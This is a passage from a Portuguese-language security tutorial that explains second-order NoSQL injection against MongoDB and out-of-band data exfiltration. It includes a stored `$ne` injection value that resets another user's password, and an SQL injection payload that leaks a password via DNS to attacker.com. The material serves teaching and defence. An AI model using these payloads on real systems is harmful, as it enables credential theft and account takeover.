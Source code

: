 Esta técnica explora uma falha fundamental no modelo de confiança de muitos desenvolvedores: o pressuposto de que os dados provenientes da própria base de dados são inerentemente seguros e não necessitam do mesmo nível de validação que a entrada direta do utilizador. Esta falsa sensação de segurança leva a que a segunda consulta seja frequentemente construída através de concatenação de strings, criando a vulnerabilidade.

**Exemplo Adaptado para NoSQL**:

- **Fase 1 (Armazenamento)**: Um utilizador regista-se numa aplicação. No campo "Nome de Utilizador", em vez de um nome simples, ele insere a string `{"$ne": "admin"}`. A aplicação, ao criar o novo utilizador, pode tratar esta entrada como uma simples string e armazená-la literalmente no campo `username` do documento do utilizador na base de dados MongoDB.
- **Fase 2 (Execução)**: Mais tarde, um administrador utiliza uma funcionalidade interna para alterar a senha de um utilizador. Esta funcionalidade pede o nome do utilizador e a nova senha. O código do backend para esta funcionalidade pode ser construído de forma insegura, recuperando primeiro o documento do utilizador e depois usando o seu conteúdo para construir a consulta de atualização. Se o código do lado do servidor interpretar a string `{"$ne": "admin"}` armazenada como um objeto de consulta MongoDB ao construir a consulta de atualização, a operação pode tornar-se:

```javascript
db.users.updateOne({username: {"$ne": "admin"}}, {$set: {password: "novaSenha"}});
```

Em vez de atualizar o utilizador cujo nome é a string `{"$ne": "admin"}`, a consulta irá agora atualizar o primeiro utilizador que encontrar cujo nome não é "admin". Dependendo da ordem dos documentos, isto pode levar à alteração da senha de um utilizador aleatório ou do primeiro utilizador não-administrador na base de dados.

A implicação de segurança é profunda: a validação de entrada não pode ser um evento único. Os dados devem ser tratados como não fidedignos sempre que são utilizados para construir consultas ou comandos, independentemente da sua origem.

### Secção 3.3: Exfiltração Out-of-Band (OOB): Contornando os Canais de Resposta Direta

A exfiltração de dados Out-of-Band (OOB) é uma técnica avançada utilizada em cenários de injeção cega, quando não é possível inferir dados através de respostas condicionais ou atrasos de tempo. Em vez de depender do canal de comunicação principal (a resposta HTTP da aplicação), o atacante força o sistema de backend a iniciar uma nova ligação de rede para um servidor externo sob o seu controlo. Os dados a serem exfiltrados são então enviados através deste canal secundário.

Os canais OOB mais comuns são as consultas DNS e os pedidos HTTP. A técnica consiste em injetar um payload que faz com que o motor da base de dados execute uma função que desencadeia uma interação de rede. Os dados a serem roubados são concatenados no pedido de rede, por exemplo, como parte de um subdomínio numa consulta DNS.

**Exemplo de Exfiltração DNS (conceptual, adaptado de SQLi)**:

```sql
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\a'))
```

Neste exemplo, a subconsulta `(SELECT password FROM users LIMIT 1)` recupera uma senha. O resultado é então usado para construir um caminho UNC (`\\password.attacker.com\a`), o que força o servidor a fazer uma consulta DNS para `password.attacker.com`. O atacante, que controla o servidor DNS para `attacker.com`, pode ver esta consulta nos seus logs e assim obter a senha.
